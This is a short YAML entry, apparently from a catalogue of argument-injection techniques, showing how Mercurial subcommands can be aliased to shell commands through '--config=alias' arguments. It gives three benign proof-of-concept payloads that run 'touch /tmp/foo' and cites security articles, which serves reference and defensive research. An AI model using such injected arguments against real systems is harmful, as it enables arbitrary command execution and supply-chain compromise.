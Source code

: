 ```yaml
---
functions:
  command:
    - description: There's a generic way to exploit argument injection vulnerabilities with Mercurial by aliasing built-in subcommands to shell scripts.
      code: |
        hg cat '--config=alias.cat="!touch /tmp/foo"'
        hg log '--config=alias.log="!touch /tmp/foo"'
        hg clone '--config=alias.clone="!touch /tmp/foo"'
      references:
        - title: "Securing Developer Tools: A New Supply Chain Attack on PHP"
          url: https://www.sonarsource.com/blog/securing-developer-tools-a-new-supply-chain-attack-on-php/
        - title: PHP Supply Chain Attack on Composer
          url: https://www.sonarsource.com/blog/php-supply-chain-attack-on-composer/
        - title: Rediscovering argument injection when using VCS tools — git and mercurial
          url: https://snyk.io/blog/argument-injection-when-using-git-and-mercurial/
---
```

